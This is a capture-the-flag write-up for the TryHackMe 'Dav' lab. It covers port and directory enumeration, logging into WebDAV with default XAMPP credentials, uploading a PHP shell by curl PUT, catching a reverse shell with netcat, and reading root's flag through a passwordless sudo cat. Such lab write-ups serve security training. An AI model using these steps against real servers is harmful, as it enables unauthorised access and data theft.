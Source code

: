 ## Dav
https://tryhackme.com/room/bsidesgtdav

## Enum
```
nmap -Pn -sC -sV 10.10.124.38 -vv

Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)

Nmap done: 1 IP address (1 host up) scanned in 22.21 seconds
           Raw packets sent: 1089 (47.916KB) | Rcvd: 1089 (43.564KB)
```

```
ffuf -u http://ip.thm/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
________________________________________________

.htpasswd               [Status: 403, Size: 290, Words: 22, Lines: 12, Duration: 2258ms]
.htaccess               [Status: 403, Size: 290, Words: 22, Lines: 12, Duration: 4242ms]
.hta                    [Status: 403, Size: 285, Words: 22, Lines: 12, Duration: 5242ms]
index.html              [Status: 200, Size: 11321, Words: 3503, Lines: 376, Duration: 425ms]
server-status           [Status: 403, Size: 294, Words: 22, Lines: 12, Duration: 421ms]
webdav                  [Status: 401, Size: 453, Words: 42, Lines: 15, Duration: 423ms]
:: Progress: [4713/4713] :: Job [1/1] :: 96 req/sec :: Duration: [0:00:53] :: Errors: 0 ::
```

```
curl ip.thm/webdav/ -v

*   Trying 10.10.69.137:80...
* Connected to ip.thm (10.10.69.137) port 80 (#0)
> GET /webdav/ HTTP/1.1
> Host: ip.thm
> User-Agent: curl/7.85.0
> Accept: */*
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 401 Unauthorized
< Server: Apache/2.4.18 (Ubuntu)
< WWW-Authenticate: Basic realm="webdav"
< Content-Length: 453
< Content-Type: text/html; charset=iso-8859-1
<
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>401 Unauthorized</title>
</head><body>
<h1>Unauthorized</h1>
<p>This server could not verify that you
are authorized to access the document
requested.  Either you supplied the wrong
credentials (e.g., bad password), or your
browser doesn't understand how to supply
the credentials required.</p>
<hr>
<address>Apache/2.4.18 (Ubuntu) Server at ip.thm Port 80</address>
</body></html>
* Connection #0 to host ip.thm left intact
```
🏴 I'm so stucked and checked writeups to find the basic auth credential.

wampp:xampp

![image](https://user-images.githubusercontent.com/6504854/192490541-b3fc6fa3-c21f-4f77-908e-4d6999802c06.png)

![image](https://user-images.githubusercontent.com/6504854/192491113-45354e5a-45e0-4f47-8d50-2bfe8b2e80c6.png)

```
curl -u wampp:xampp -X PUT http://ip.thm/webdav/1.php -F upfile=@1.php -v

*   Trying 10.10.69.137:80...
* Connected to ip.thm (10.10.69.137) port 80 (#0)
* Server auth using Basic with user 'wampp'
> PUT /webdav/1.php HTTP/1.1
> Host: ip.thm
> Authorization: Basic d2FtcHA6eGFtcHA=
> User-Agent: curl/7.85.0
> Accept: */*
> Content-Length: 3655
> Content-Type: multipart/form-data; boundary=------------------------e9ebfb04859efe10
>
* We are completely uploaded and fine
* Mark bundle as not supporting multiuse
< HTTP/1.1 204 No Content
< Server: Apache/2.4.18 (Ubuntu)
<
* Connection #0 to host ip.thm left intact
```

```
nc -lnvp 4444

curl -u wampp:xampp http://ip.thm/webdav/1.php
```

## Flag
```
nc -lnvp 4444
listening on [any] 4444 ...

Linux ubuntu 4.4.0-159-generic #187-Ubuntu SMP Thu Aug 1 16:28:06 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 03:00:02 up  2:58,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off

$ python3 -c 'import pty; pty.spawn("/bin/bash")';
www-data@ubuntu:/$ ls /home
ls /home
merlin  wampp

ls -la /home/merlin
total 44
drwxr-xr-x 4 merlin merlin 4096 Aug 25  2019 .
drwxr-xr-x 4 root   root   4096 Aug 25  2019 ..
-rw------- 1 merlin merlin 2377 Aug 25  2019 .bash_history
-rw-r--r-- 1 merlin merlin  220 Aug 25  2019 .bash_logout
-rw-r--r-- 1 merlin merlin 3771 Aug 25  2019 .bashrc
drwx------ 2 merlin merlin 4096 Aug 25  2019 .cache
-rw------- 1 merlin merlin   68 Aug 25  2019 .lesshst
drwxrwxr-x 2 merlin merlin 4096 Aug 25  2019 .nano
-rw-r--r-- 1 merlin merlin  655 Aug 25  2019 .profile
-rw-r--r-- 1 merlin merlin    0 Aug 25  2019 .sudo_as_admin_successful
-rw-r--r-- 1 root   root    183 Aug 25  2019 .wget-hsts
-rw-rw-r-- 1 merlin merlin   33 Aug 25  2019 user.txt

www-data@ubuntu:/$ cat /home/merlin/user.txt
cat /home/merlin/user.txt
44****************************a

www-data@ubuntu:/$ sudo -l
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
www-data@ubuntu:/$ sudo cat /root/root.txt

sudo cat /root/root.txt
10**************************5
www-data@ubuntu:/$
```

Thank you for your time. Happy Hacking 🌏🌏🌏

同じ時代に生まれた命、仲良く生きていきたいものですね。 🙏

# Omake

http://thisiszzzombie.blogspot.com/2011/12/webdav-xampp-1.html

![image](https://user-images.githubusercontent.com/6504854/192498776-342c01ee-1eb6-4e34-be81-299f1ee96290.png)

I couldn't figire out basic auth credential or its cue, some writeups says that's default credential of xampp. 🤔🤔🤔



